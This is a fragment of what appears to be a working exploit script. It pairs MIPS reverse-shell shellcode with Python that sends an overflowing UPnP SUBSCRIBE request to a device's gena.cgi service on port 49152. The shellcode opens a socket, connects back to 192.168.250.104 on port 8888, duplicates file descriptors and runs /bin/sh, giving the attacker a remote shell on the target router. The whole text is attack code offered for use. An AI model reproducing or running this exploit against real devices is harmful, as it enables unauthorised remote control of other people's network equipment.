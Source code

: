 ```
 
    li $t4, 0xFFFFFFFD
    not $a0, $t4
    not $a1, $t4
    slti $a2, $zero, 0xFFFF
    li $v0, 4183
    syscall 0x42424
 
    andi $a0, $v0, 0xFFFF
    li $v0, 4041
    syscall 0x42424
    li $v0, 4041
    syscall 0x42424
 
    lui $a1, 0xB821 # Port: 8888
    ori $a1, 0xFF01
    addi $a1, $a1, 0x0101
    sw $a1, -8($sp)
 
    li $a1, 0x68FAA8C0 # IP: 192.168.250.104
    sw $a1, -4($sp)
    addi $a1, $sp, -8
 
    li $t4, 0xFFFFFFEF
    not $a2, $t4
    li $v0, 4170
    syscall 0x42424
 
    lui $t0, 0x6962
    ori $t0, $t0,0x2f2f
    sw $t0, -20($sp)
 
    lui $t0, 0x6873
    ori $t0, 0x2f6e
    sw $t0, -16($sp)
 
    slti $a3, $zero, 0xFFFF
    sw $a3, -12($sp)
    sw $a3, -4($sp)
 
    addi $a0, $sp, -20
    addi $t0, $sp, -20
    sw $t0, -8($sp)
    addi $a1, $sp, -8
 
    addiu $sp, $sp, -20
 
    slti $a2, $zero, 0xFFFF
    li $v0, 4011
    syscall 0x42424
''')
payload += b'a'*0x18
payload += shellcode
 
msg = b"SUBSCRIBE /gena.cgi?service=" + payload + b" HTTP/1.1\r\n"
msg += b"Host: localhost:49152\r\n"
msg += b"SID: 1\r\n"
msg += b"Timeout: Second-2333\r\n\r\n"
 
s.connect((gethostbyname("192.168.250.1"), 49152))
s.send(msg)
```  
  